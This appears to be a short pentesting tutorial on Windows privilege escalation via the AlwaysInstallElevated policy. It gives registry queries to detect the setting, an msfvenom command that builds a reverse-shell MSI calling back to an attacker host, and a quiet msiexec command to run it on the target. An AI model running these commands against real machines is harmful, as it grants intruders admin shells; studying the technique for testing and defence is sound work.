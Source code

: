 # Introduction

Windows has a group policy which, when enabled, allows a user to install a Microsoft Windows Installer Package (`.msi` file) with elevated privileges. This poses a security risk because an adversary can simply generate a malicious `.msi` file and execute it with admin privileges.

In order to check for this vulnerability, one need only query the following registry keys:

```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

![](res/Images/AlwaysInstallElevated/Query%20Registry%20Keys.png)

The `AlwaysInstallElevated` policy appears enabled, so we can generate a malicious `.msi` executable. One way to do this is through Metasploit:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f msi -o reverse.msi
```

Next, transfer the executable to the target machine and execute it with `msiexec`:

```powershell
msiexec /quiet /qn /i <path>
```

![](res/Images/AlwaysInstallElevated/msiexec.png)

![](res/Images/Shell.png)